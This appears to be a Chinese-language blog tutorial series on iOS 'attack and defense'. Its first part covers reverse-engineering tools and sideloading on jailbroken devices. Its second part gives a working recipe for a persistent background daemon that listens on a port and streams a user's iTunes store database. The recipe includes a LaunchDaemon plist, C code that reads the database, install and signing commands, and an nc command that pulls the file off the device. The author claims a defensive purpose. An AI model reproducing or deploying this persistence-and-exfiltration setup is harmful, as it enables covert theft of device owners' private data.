

# iOS安全攻防


# 目录


* [iOS安全攻防（一）：Hack必备的命令与工具](#markdown-af01)

* [iOS安全攻防（二）：后台daemon非法窃取用户iTunesstore信息](#markdown-af02)

* [iOS安全攻防（一）：Hack必备的命令与工具](#markdown-af03)

* [iOS安全攻防（一）：Hack必备的命令与工具](#markdown-af04)

* [iOS安全攻防（一）：Hack必备的命令与工具](#markdown-af05)


### <a name="markdown-af01"></a>iOS安全攻防（一）：Hack必备的命令与工具


你的应用正在被其他对手反向工程、跟踪和操作！你的应用是否依旧裸奔豪不防御？
 
郑重声明一下，懂得如何攻击才会懂得如何防御，一切都是为了之后的防御作准备。废话少说，进入正题。
 
今天总结一下为hack而做的准备工作。
 
常用的命令和工具
ps 	        ——显示进程状态，CPU使用率，内存使用情况等

sysctl       ——检查设定Kernel配置

netstat     ——显示网络连接，路由表，接口状态等

route        ——路由修改

renice       ——调整程序运行的优先级

ifconfig    ——查看网络配置

tcpdump   ——截获分析网络数据包

lsof           ——列出当前系统打开的文件列表，别忘记一切皆文件，包括网络连接、硬件等

otool ①     ——查看程序依赖哪些动态库信息，反编代码段……等等等等

nm ②        ——显示符号表

ldid ③      ——签名工具

gdb          ——调试工具

patch       ——补丁工具

SSH         ——远程控制
 
备注：
① otool，可查看可执行程序都链接了那些库：

`
otool  -L WQAlbum 
 `
 
可以得到：
WQAlbum:
	/System/Library/Frameworks/StoreKit.framework/StoreKit (compatibility version 1.0.0, current version 1.0.0)
	/System/Library/Frameworks/AdSupport.framework/AdSupport (compatibility version 1.0.0, current version 1.0.0)
	/usr/lib/libz.1.dylib (compatibility version 1.0.0, current version 1.2.5)
	/System/Library/Frameworks//MediaPlayer.framework/MediaPlayer (compatibility version 1.0.0, current version 1.0.0)
	/System/Library/Frameworks/MobileCoreServices.framework/MobileCoreServices (compatibility version 1.0.0, current version 40.0.0)
	/System/Library/Frameworks/CoreMedia.framework/CoreMedia (compatibility version 1.0.0, current version 1.0.0)
……
 
可以反编译WQAlbum的__TEXT__段内容, 截前10行：

`
otool -tV WQAlbum |head -n 10 
` 
 
 
可以得到：
WQAlbum:
(__TEXT,__text) section
start:
00002de0	pushl	$0x00
00002de2	movl	%esp,%ebp
00002de4	andl	$0xf0,%esp
00002de7	subl	$0x10,%esp
00002dea	movl	0x04(%ebp),%ebx
……
 
② nm，显示程序符号表，用我自己的应用程序私人相册现身说法一下：

`
nm -g WQAlbum  （ -g 代表 global） 
 `
 
可以得到：
001e5eec S _OBJC_IVAR_$_WQPhotoViewController.albumObject
001e5efc S _OBJC_IVAR_$_WQPhotoViewController.int_current
001e5f00 S _OBJC_IVAR_$_WQPhotoViewController.int_total
 
其中，WQPhotoViewController为类名，albumObject为该类的成员
 
③ ldid，是iPhoneOS.platform提供的签名工具，我们自己编译的程序需要签上名才能跑在iPhone/iPad上，使用方法

`export CODESIGN_ALLOCATE=/Applications/Xcode.app/Contents/Developer/Platforms/iPhoneOS.platform/Developer/usr/bin/codesign_allocate
`

`
ldid -S helloworld 
`
 
编译Hello world
 
1.首先找到编译器：
arm-apple-darwin10-llvm-gcc-4.2 就是了。
 
为了方便起见，可以在.bashrc或者profile 配置下环境变量，方便编译。
 
2.找到SDK 
编译我们自己的程序的时候需要指定该目录下的SDK。
 
3.来个经典Hello world ：

    #include <stdio.h>                                                                                              
    int main(){   
           printf("Hello world !!!\n");   
           return 0;   
    }   

 
4.编译
 
其中 -isysroot用来指定build时的SDK
 
5.校验 
 
file查看一下类型，没问题。
 
6.SCP给iPhone、iPad
前提是，设备已经越狱并且安装了SSH,且必须在同一网段。

`
$scp helloworld root@x.x.x.x:hello world
 `
 
7.登录设备签名

```
$ssh -l root x.x.x.x
#ldid -S helloworld
```
 
8.执行程序

```
#./helloworld
```
Hello world !!!
 
运行成功，这就完成了最简单的手动执行自己的应用程序。
 
### <a name="markdown-af02"></a>iOS安全攻防（二）：后台daemon非法窃取用户iTunesstore信息


> 本人郑重声明：并不鼓励窃取用户隐私等行为，一切hack学习都只是为了研究如何防御。OK，进入正题。
 
#### 开机自启动
 
在iOS安全攻防（一）：Hack必备的命令与工具中，介绍了如何编译自己的C程序并手动启动。今天介绍如何使程序变为开机自启动。
 
1.首先打开Xcode创建一个plist属性文件，如下图所示：
 
其中要注意一下通信服务名，我定为55。用编辑器打开，即为：

    <?xml version="1.0" encoding="UTF-8"?>   
    <!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN" "http://www.apple.com/DTDs/PropertyList-1.0.dtd">   
    <plist version="1.0">   
    <dict>   
        <key>Program</key>   
        <string>/usr/bin/ncdemo</string>   
        <key>StandardErrorPath</key>   
        <string>/dev/null</string>   
        <key>SessionCreate</key>   
        <true/>   
        <key>ProgramArguments</key>   
        <array>   
            <string>/usr/bin/ncdemo</string>   
        </array>   
        <key>inetdCompatibility</key>   
        <dict>   
            <key>Wait</key>   
            <false/>   
        </dict>   
        <key>Sockets</key>   
        <dict>   
            <key>Listeners</key>   
            <dict>   
                <key>SockServiceName</key>   
                <string>55</string>   
            </dict>   
        </dict>   
    </dict>   
    </plist>   

 
最后，将plist文件 scp 至 root@192.168.1.114:/System/Library/LaunchDaemons/ 下 .

编写读取iTunesstore数据库程序
读取itunesstored2.sqlitedb信息，并输出到stdout中，便于我们读取。

    #include <stdio.h>   
    #include <fcntl.h>   
    #include <stdlib.h>   
       
    #define FILE "/var/mobile/Library/com.apple.itunesstored/itunesstored2.sqlitedb"   
       
    int main(){   
        int fd = open(FILE, O_RDONLY);   
        char buf[128];   
        int ret = 0;   
           
        if(fd < 0)   
            return -1;   
        while (( ret = read(fd, buf, sizeof(buf))) > 0){   
            write( fileno(stdout), buf, ret);   
        }   
        close(fd);   
        return 0;   
    }   

 编译、拷贝、签名
1.编译方法上篇文章已经介绍清楚，这里不再重复，直接￥%￥＃%￥……%＃ 生成运行在ARM的 ncdemo 
 
2.将ncdemo scp 到设备中，并登录

```
$ scp ncdemo root@192.168.1.114:ncdemo
$ ssh root@192.168.1.114
```
 
3.签名

```
#ldid -S ncdemo
#mv ncdemo /usr/bin
```

抓取 iTunesstore 数据信息
这时，我们只需要利用netcat，指定之前定义的服务名称，轻松在本地抓取设备 iTunesstore 信息.

```
$ nc 192.168.1.114 55 > itunesstored2.sqlitedb
```
 
分析 iTunesstore 数据信息
好吧，这里就介绍个最简单的应用，利用string命令查看：

```
$ strings itunesstored2.sqlitedb 
```
 
于是乎，我们就清晰的得到了iPhone /iPad 设备上都安装了哪些app ：



